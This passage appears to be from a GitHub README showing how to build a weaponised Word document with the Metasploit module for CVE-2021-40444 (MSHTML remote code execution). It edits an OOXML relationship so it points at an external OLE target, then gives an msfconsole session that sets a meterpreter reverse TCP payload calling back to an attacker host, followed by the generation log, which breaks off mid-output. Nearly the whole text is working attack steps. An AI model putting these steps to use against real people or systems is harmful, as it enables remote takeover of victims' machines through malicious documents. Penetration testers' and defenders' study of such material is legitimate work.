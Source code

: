     Check that `word/_rels/document.xml.rels` have good relation to the above thing:
    
    ```
    &lt;Relationship Id=&quot;rId32&quot; Type=&quot;http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject&quot; Target=&quot;TARGET_HERE&quot; TargetMode=&quot;External&quot;/&gt;
    &lt;Relationship Id=&quot;rId31&quot; Type=&quot;http://schemas.openxmlformats.org/officeDocument/2006/relationships/image&quot; Target=&quot;NULL&quot; TargetMode=&quot;External&quot;/&gt;
    ```
    
    Pack that to create word document to used as template.

2. Use the template with `msfconsole`.

    ```
    msf6 exploit(windows/fileformat/word_mshtml_rce) > use exploit/windows/fileformat/word_mshtml_rce
    [*] Using configured payload windows/x64/meterpreter/reverse_tcp
    msf6 exploit(windows/fileformat/word_mshtml_rce) > set customtemplate /tmp/readme.docx
    customtemplate => /tmp/readme.docx
    msf6 exploit(windows/fileformat/word_mshtml_rce) > set srvhost 172.20.7.36
    srvhost => 172.20.7.36
    msf6 exploit(windows/fileformat/word_mshtml_rce) > set lhost 172.20.7.36
    lhost => 172.20.7.36
    msf6 exploit(windows/fileformat/word_mshtml_rce) > set verbose true
    verbose => true
    msf6 exploit(windows/fileformat/word_mshtml_rce) > run
    [*] Using URL: http://172.20.7.36:8080/c6RhuAJ0fcW7
    [*] Server started.
    [*] CVE-2021-40444: Generate a malicious docx file
    [*] Using template '/tmp/readme.docx'
    [*] Parsing item from template: [Content_Types].xml
    [*] Parsing item from template: _rels/
    [*] Parsing item from template: _rels/.rels
    [*] Parsing item from template: docProps/
    [*] Parsing item from template: docProps/core.xml
    [*] Parsing item from template: docProps/app.xml
    [*] Parsing item from template: word/
    [*] Parsing item from template: word/theme/
    [*] Parsing item from template: word/theme/theme1.xml
    [*] Parsing item from template: word/styles.xml
    [*] Parsing item from template: word/settings.xml
    [*] Parsing item from template: word/endnotes.xml
    [*] Parsing item from template: word/footnotes.xml
    [*] Parsing item from template: word/document.xml
    [*] Parsing item from template: word/media/
    [*] Parsing item from template: word/media/image11.jpg
    [*] Parsing item from template: word/media/image17.jpg
    [*] Parsing item from template: word/media/image4.png
    [*] Parsing item from template: word/media/image18.jpg
    [*] Parsing item from template: word/media/image10.jpg
    [*] Parsing item from template: word/media/image15.jpg
    [*] Parsing item from template: word/media/image19.jpg
    [*] Parsing item from template: word/media/image3.jpg
    [*] Parsing item from template: word/media/image7.jpg
    [*] Parsing item from template: word/media/image14.png
    [*] Parsing item from template: word/media/image1.png
    [*] Parsing item from template: word/media/image8.jpg
    [*] Parsing item from template: word/media/image9.jpg
    [*] Parsing item from template: word/media/image16.jpg
    [*] Parsing item from template: word/media/image12.jpg
    [*] Parsing item from template: word/media/image13.jpg
    [*] Parsing item from template: word/media/image2.png
    [*] Parsing item from template: word/media/image5.png
    [*] Parsing item from template: word/media/image6.jpg
    [*] Parsing item from template: word/_rels/